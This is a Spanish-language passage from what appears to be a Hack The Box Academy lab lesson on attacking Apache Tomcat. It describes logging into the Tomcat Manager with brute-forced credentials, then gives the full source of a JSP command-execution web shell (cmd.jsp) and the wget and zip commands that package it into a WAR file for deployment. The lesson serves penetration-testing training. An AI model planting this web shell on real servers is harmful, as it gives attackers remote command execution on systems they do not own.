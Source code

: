 Después de realizar un ataque de fuerza bruta y responder las preguntas 1 y 2 a continuación, navegue por`http://web01.inlanefreight.local:8180/manager/html`e ingrese las credenciales.

![](https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png)

La aplicación Web Manager nos permite implementar instantáneamente nuevas aplicaciones cargando archivos de guerra. Se puede crear un archivo de guerra utilizando la utilidad ZIP. Un shell web JSP como[este](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp)se puede descargar y colocar dentro del archivo.

Código:Java

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre><%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>

```

Atacando a Tomcat

```
xnoxos@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jspxnoxos@htb[/htb]$ zip -r backup.war cmd.jsp   adding: cmd.jsp (deflated 81%)

```
